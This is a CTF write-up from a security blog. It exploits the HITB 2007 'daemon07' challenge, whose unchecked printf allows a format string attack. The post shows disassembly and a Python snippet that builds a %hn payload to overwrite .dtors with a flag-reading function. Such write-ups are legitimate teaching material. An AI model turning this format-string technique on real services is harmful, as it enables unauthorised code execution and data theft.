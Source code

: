 ```yaml
---
title: Exploiting HITB 2007 Kuala Lumpur CTF Daemon 07
author: lamer
excerpt: |
  |
    Like daemon05, daemon07 is an easy target. It suffers a format string bug. Exploiting it by overwriting .dtors with an easter-egg.
layout: post
tweetcount:
  - 0
shorturls:
  - 'a:4:{s:9:"permalink";s:82:"http://www.vnsecurity.net/2007/09/exploiting-hitb-2007-kuala-lumpur-ctf-daemon-07/";s:7:"tinyurl";s:26:"http://tinyurl.com/y9qu2zl";s:4:"isgd";s:18:"http://is.gd/aOubp";s:5:"bitly";s:0:"";}'
twittercomments:
  - 'a:0:{}'
tweetbackscheck:
  - 1408359076
categories:
  - 'CTF - CLGT Crew'
---
```

## Analyzing main

There really is nothing to analyze here. It&#8217;s plain to see that the last `printf` was called without any format string.

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">.text:08048A8E main            proc near               ; DATA XREF: start+17&uarr;o
.text:08048A8E
.text:08048A8E var_118         = dword ptr -118h
.text:08048A8E var_114         = dword ptr -114h
.text:08048A8E var_110         = dword ptr -110h
.text:08048A8E var_108         = dword ptr -108h
.text:08048A8E
.text:08048A8E                 push    ebp
.text:08048A8F                 mov     ebp, esp
.text:08048A91                 sub     esp, 118h       ; char *
.text:08048A97                 and     esp, 0FFFFFFF0h
.text:08048A9A                 mov     eax, 0
.text:08048A9F                 add     eax, 0Fh
.text:08048AA2                 add     eax, 0Fh
.text:08048AA5                 shr     eax, 4
.text:08048AA8                 shl     eax, 4
.text:08048AAB                 sub     esp, eax
.text:08048AAD                 mov     [esp+118h+var_118], offset aCodedByXwings_ ; "Coded By xWinGs. a code just to make yo"...
.text:08048AB4                 call    _printf
.text:08048AB9                 mov     [esp+118h+var_118], offset aSecretCode ; "Secret Code: "
.text:08048AC0                 call    _printf
.text:08048AC5                 mov     eax, ds:stdout
.text:08048ACA                 mov     [esp+118h+var_118], eax
.text:08048ACD                 call    _fflush
.text:08048AD2                 mov     [esp+118h+var_110], 100h
.text:08048ADA                 lea     eax, [ebp+var_108]
.text:08048AE0                 mov     [esp+118h+var_114], eax
.text:08048AE4                 mov     [esp+118h+var_118], 0
.text:08048AEB                 call    _read
.text:08048AF0                 mov     ds:dword_8052998, eax
.text:08048AF5                 mov     [esp+118h+var_110], offset aEtcFlagsDaemon ; "/etc/flags/daemon07.txt"
.text:08048AFD                 mov     eax, ds:dword_8052998
.text:08048B02                 mov     [esp+118h+var_114], eax
.text:08048B06                 lea     eax, [ebp+var_108]
.text:08048B0C                 mov     [esp+118h+var_118], eax
.text:08048B0F                 call    sub_80489C4
.text:08048B14                 mov     [esp+118h+var_118], offset aWrongCode_Debu ; "Wrong Code.nDebug Input : "
.text:08048B1B                 call    _printf
.text:08048B20                 lea     eax, [ebp+var_108]
.text:08048B26                 mov     [esp+118h+var_118], eax
.text:08048B29                 call    &lt;strong&gt;_printf&lt;/strong&gt;
.text:08048B2E                 mov     eax, 0
.text:08048B33                 leave
.text:08048B34                 retn
.text:08048B34 main            endp
</pre>

## Exploit it

So, it&#8217;s a simple format string exploit. We will overwrite the end of .dtors to point to the easter-egg function at `08048A32`.

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">.text:08048A32 ; ---------------------------------------------------------------------------
.text:08048A32                 push    ebp
.text:08048A33                 mov     ebp, esp
.text:08048A35                 sub     esp, 48h
.text:08048A38                 mov     dword ptr [esp+4], offset aR ; "r"
.text:08048A40                 mov     dword ptr [esp], offset aEtcFlagsDaemon ; "/etc/flags/daemon07.txt"
.text:08048A47                 call    _fopen
.text:08048A4C                 mov     [ebp-0Ch], eax
.text:08048A4F                 mov     eax, [ebp-0Ch]
.text:08048A52                 mov     [esp+8], eax
.text:08048A56                 mov     dword ptr [esp+4], 20h
.text:08048A5E                 lea     eax, [ebp-38h]
.text:08048A61                 mov     [esp], eax
.text:08048A64                 call    _fgets
.text:08048A69                 mov     eax, [ebp-0Ch]
.text:08048A6C                 mov     [esp], eax
.text:08048A6F                 call    _fclose
.text:08048A74                 lea     eax, [ebp-38h]
.text:08048A77                 mov     [esp+4], eax
.text:08048A7B                 mov     dword ptr [esp], offset aS ; "n%s"
.text:08048A82                 call    _printf
.text:08048A87                 mov     eax, 0
.text:08048A8C                 leave
.text:08048A8D                 retn
</pre>

These few lines of Python code are all it takes to construct an exploit.

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">dtors_addr = 0x08052804
target_addr = 0x08048A32
offset = 8

junk_cnt0 = offset * 4
junk_cnt1 = (target_addr & 0xFFFF) - junk_cnt0
junk_cnt2 = 0x10000 + ((target_addr & 0xFFFF0000) &gt;&gt; 16) - junk_cnt1 - junk_cnt0

fmtstring = struct.pack("I", dtors_addr) + struct.pack("I", dtors_addr + 2) + "aaaa" * (offset - 2)
fmtstring += "%%.%dx%%%d$hn" % (junk_cnt1, offset)
fmtstring += "%%.%dx%%%d$hn" % (junk_cnt2, offset + 1)
fmtstring += "n"
# send this string to port 7777, will ya?
</pre>

## Observation

Unlike daemon05, we need not flush the buffer in `printf` because when the daemon ends normally, this buffer is automatically flushed. And the daemon does end normally. Let&#8217;s find out why.

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">.dtors:08052800 _dtors          segment dword public 'DATA' use32
.dtors:08052800                 assume cs:_dtors
.dtors:08052800                 ;org 8052800h
.dtors:08052800                 db 0FFh
.dtors:08052801                 db 0FFh
.dtors:08052802                 db 0FFh
.dtors:08052803                 db 0FFh
.dtors:08052804                 db    0
.dtors:08052805                 db    0
.dtors:08052806                 db    0
.dtors:08052807                 db    0
.dtors:08052807 _dtors          ends
.dtors:08052807
.jcr:08052808 ; ---------------------------------------------------------------------------
.jcr:08052808
.jcr:08052808 ; Segment type: Pure data
.jcr:08052808 ; Segment permissions: Read/Write
.jcr:08052808 _jcr            segment dword public 'DATA' use32
.jcr:08052808                 assume cs:_jcr
.jcr:08052808                 ;org 8052808h
.jcr:08052808                 db    0
.jcr:08052809                 db    0
.jcr:0805280A                 db    0
.jcr:0805280B                 db    0
.jcr:0805280B _jcr            ends
</pre>

Right after .dtors is .jcr which is filled with four `00`, which incidentally is also the end marker for .dtors. So, when we overwrite `08052804` with the value `08048A32`, we happen to *insert* a destructor to .dtors list. If .jcr were different, we would have to overwrite .jcr to point to the `fflush` code in `main`, which is at `08048AC5`. This is still doable by extending our format string to have two more `%hn` overwrites.

Oh, and thank you, xWinGs, for these easy points.